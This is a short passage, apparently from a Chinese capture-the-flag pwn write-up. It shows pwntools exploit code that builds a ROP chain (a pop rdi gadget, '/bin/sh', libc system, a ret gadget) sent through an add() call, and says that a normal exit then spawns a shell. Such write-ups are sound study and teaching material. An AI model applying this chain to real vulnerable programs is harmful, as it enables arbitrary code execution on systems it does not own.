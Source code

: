 ```plain
pop_rdi = libc_base + 0x0000000000028715
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.sym['system']
ret  = libc_base + 0x0000000000026a3e
sl('1')

pl= p64(0)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
add(0x400,pl)
```

在add函数的rbp后面构造rop

[![](assets/1701606615-717bfcfbb0504453e37fb02347c6011c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213910-5b6b69c2-83bc-1.png)  
然后正常退出就能getshell

```plain
menu(5)
```

[![](assets/1701606615-8b01d6289c79e50a76afd54a3b6230a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213924-63fcb3c0-83bc-1.png)
